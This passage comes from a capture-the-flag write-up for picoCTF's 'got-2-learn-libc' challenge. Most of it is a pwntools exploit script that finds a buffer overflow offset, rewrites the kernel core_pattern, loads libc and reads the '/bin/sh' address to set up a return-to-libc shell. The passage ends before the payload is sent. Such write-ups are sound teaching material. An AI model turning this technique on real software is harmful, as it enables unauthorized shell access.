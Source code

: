 Which means that `system` will treat the address of "/bin/sh" as its argument, and give us a shell.


### Scripting with pwntools

Putting it all together:
```python
from pwn import *
import argparse
import os

EXECUTABLE = "vuln"
LOCAL_PATH = "./"
REMOTE_PATH = "/problems/got-2-learn-libc_0_4c2b153da9980f0b2d12a128ff19dc3f/"
SSH_SERVER = "2018shell3.picoctf.com"

def get_process_path(is_ssh = False):
    if is_ssh or os.path.exists(REMOTE_PATH):
        return REMOTE_PATH + EXECUTABLE
    else:
        return LOCAL_PATH + EXECUTABLE

def get_process(ssh_user = None):
    is_ssh = ssh_user is not None
    path = get_process_path(is_ssh)
    params = {"argv": path, "cwd": os.path.dirname(path)}
    if is_ssh:
        s = ssh(host=SSH_SERVER, user=ssh_user)
        p = s.process(**params)
    else:
        p = process(**params)
    return p


def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
	os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")

	proc = process(get_process_path())
	payload = cyclic(200)
	proc.sendlineafter("Enter a string:", payload)
	proc.wait()
	offset = cyclic_find(proc.corefile.eip)
	log.info("Overflow offset: {}".format(offset))
	return offset


parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh_user", help="Connect via SSH with the given username", required = True)
args = parser.parse_args()

offset = get_overflow_offset()
e = ELF(get_process_path())
context.binary = e.path
libc = ELF(LOCAL_PATH + "libc6-i386_2.23-0ubuntu10_amd64.so")

p = get_process(args.ssh_user)
output = p.recvuntil("Enter a string:")

binsh = int(re.search("useful_string: 0x([0-9a-f]+)", output, re.MULTILINE).group(1), 16)
log.info("Address of /bin/sh: {}".format(hex(binsh)))

```